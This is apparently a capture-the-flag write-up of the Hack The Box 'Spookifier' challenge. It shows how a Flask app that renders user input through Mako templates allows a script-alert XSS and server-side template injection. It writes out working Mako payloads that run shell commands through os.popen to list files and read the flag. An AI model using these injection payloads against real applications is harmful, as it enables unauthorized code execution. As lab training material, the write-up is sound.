




## Intoduction

[Spookifier](https://app.hackthebox.com/challenges/Spookifier) challenge within HTB is a good start to get initiated into the SSTI vulnerability within web applications.


## Manual Surfing

When we check the website it consists of an input that you insert your name in it and then it shows you a list of the name you insereted but with different fonts as shown in the following figures.





## Fuzzing Input

Whenever I see inputs in any website it always comes to mind that I should fuzz it to look for vulnerabilities as **XSS**, **SSTI** ...

### XSS Trial

After making a `HEAD` request we get the following response headers

```sh
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 7506
Server: Werkzeug/2.0.0 Python/3.8.15
Date: Fri, 14 Nov 2025 09:06:30 GMT
```

We realize that the website does not contain CSP (Content Security Policy). So XSS is possible.

If we insert in the input the payload : `<script> alert("Hey") </script>` 
we get alert of "Hey" message so the website is XSS vulnerable ✅

### SSTI Trial

We tried some jinja injection but it didn't work. So let's check the app code source provided by the challenge.

When we consult the code source we realize that it is a flask app so first thing I do with such python libraries is I check the imports to know which libraries, template engines are used within the app.

**TIP : In each code source provided by any web challenge ALWAYS CHECK IMPORTS YOU MAY FIND VULNERABLE LIBRARIES**

So after checking the imports in main.py we find the following

```py
from flask import Flask, jsonify
from application.blueprints.routes import web
from flask_mako import MakoTemplates
```

the juicy one is **from flask_mako import MakoTemplates**, so the template engine used is not the default JinJa2 but mako.

In util.py file we find **from mako.template import Template** and we find the following code:

```py
def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()
```

the **{}** is the template of mako so by using some mako's payload we can even perform RCE.

Let's test it by injecting this payload : `${7*7}`

and we get the following result



So the app is SSTI vulnerable ✅


## Exploiting SSTI

SSTI is more vulnerable and leads to RCE with that we can even get a reverse shell, but it is out of the scope of this CTF we want only simple RCE to print out the flag.

To get a nice payload we can use the github repo [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).

we can inject `${self.module.cache.util.os.popen("ls").read()}`

It lists for us the content of the directory where the web app is as shown in the following figure


We need to get flag.txt file and we can get it outside of the current folder by typing `${self.module.cache.util.os.popen("cat ../flag.txt").read()}`

and with that we found the flag as shown in the following figure




## What we learned

- Always check imports if source code is provided because you can find a vulnerable library that you can exploit.
- You can have both XSS and SSTI in one website but in most cases ( not all of them ) SSTI > XSS because it touches the server directly.